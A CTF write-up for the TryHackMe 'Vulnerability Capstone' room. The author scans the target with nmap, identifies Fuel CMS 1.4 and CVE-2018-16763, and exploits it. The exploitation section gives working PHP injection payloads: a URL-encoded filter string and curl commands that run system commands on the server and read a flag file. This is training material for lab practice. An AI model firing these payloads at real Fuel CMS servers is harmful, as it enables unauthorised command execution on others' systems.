





# Vulnerability Capstone CTF Writeup

**TryHackMe:** https://tryhackme.com/room/vulnerabilitycapstone

## Overview

This TryHackMe CTF provided a single target IP address with no additional information.

## 1. Reconnaissance

I started with simple nmap service version scan of the provided IP: 

`nmap -sV -T4 [target_ip]`

What this command does:

-  `nmap` - checks if the most common 1000 ports are open or closed
- `-sV` - after discovering an open port extra probes will be sent to determine extra information
- `-T4` - this flag tells nmap to be aggressive and probe faster
- `[target_ip]` - this is the IP that is being port scanned with nmap

Heres the results of the nmap scan:



The service of importance is the http apache server, as we can check this in our browser:



The apache server is running Fuel CMS with version 1.4 on it, this answers 2/4 of the questions on the CTF. Just 2 more to go.

The next question gives us a bit of a hint: `What is the number of the CVE that allows an attacker to remotely execute code on this application?`

So i just searched up Fuel CMS 1.4 remote code execution and found a link to the nist.gov site instantly:
https://nvd.nist.gov/vuln/detail/CVE-2018-16763

This answers 3/4 of the questions. The final question being to retrieve the flag: `What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.`

So i suspect ill have to use this CVE exploit to either start a reverse shell or just grab the flag with the remote code execution.


## 2. Exploitation

I found this Proof of Concept on github, i doublechecked the code to see if anything malicious was being run (apart from the intended maliciousness) and decided to use this script: https://github.com/saccles/CVE_2018_16763_Proof_of_Concept/tree/main.

After running the script i wasnt getting any output like expected, i tried numerous commands even attempted a reverse shell in case it was just the output that wasn't working but that didnt work either. Heres the script failing:




So after looking through the code a bit i realised that only one line is needed for the remote code execution and that i could just use the `curl` command to eliminate unnecessary problems within the python code, libraries, dependencies and other things.

Heres the one necessary line:

`full_url = f"{url}/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27{quote(cmd)}%27%29%2b%27"`

So heres the curl command that i constructed:
```
curl -G 'http://[target_ip]/fuel/pages/select/' \
  --data-urlencode "filter='+pi(print(\$a='system'))+\$a('[enter_command_here]')+'"
```

What this command does:
- `curl -G` - tells curl to send a `GET` request to the following address
- `--data-urlencode` - this allows me to type exactly the command i want to execute on the FuelCMS PHP server and then encode it later so its readable for me but encoded when the request is made
- `filter='+pi(print(\$a='system'))+\$a('[enter_command_here]')+'` - this is the string of code that the PHP server is vulnerable to, because the filter query is interpreted in PHP
  - the first `'` is used to escape the quotations context so we  can start entering commands that will be executed and not interpreted as just text
  - the `+pi(print(\$a='system'))` secretly assigns `system` to the variable `$a` hidden in 2 seemingly harmless functions
  - then the `$a('[enter_command_here]')` part is the same as writing `system('[enter_command_here]')` - allowing us to execute system commands without actually writing system
  - the `+`'s are used to tell PHP to continue to the next part of the expression so the syntax doesnt break and throw an error

  Heres the result from using this command (piped with `grep` so that i can filter the output):



Note: it outputted the `flag.txt` multiple times however this is just because the http broke a little bit, however there is only 1 `flag.txt` file.


So from here all i need to do is change the command to reveal the contents of `flag.txt`.

Heres the final command i constructed to retrieve the flag from `/home/ubuntu/flag.txt` on the FuelCMS's PHP server:

```
curl -G 'http://[target_ip]/fuel/pages/select/' \
  --data-urlencode "filter='+pi(print(\$a='system'))+\$a('cat /home/ubuntu/flag.txt')+'" | grep THM
```

And Heres the result:



Thats the final flag completed.

## What i Learned

I learned that not everything goes to plan, sometimes scripts may fail because of one slight mismatch in operating system versions or dependency versions. However it can be very useful being able to read through exploits code and understand what it does and take the important parts and make the script work for you.

I learned that often times stripping things down to their bare minimum can help you understand what they actually do better and remove any unnecessary issues in compatibility.


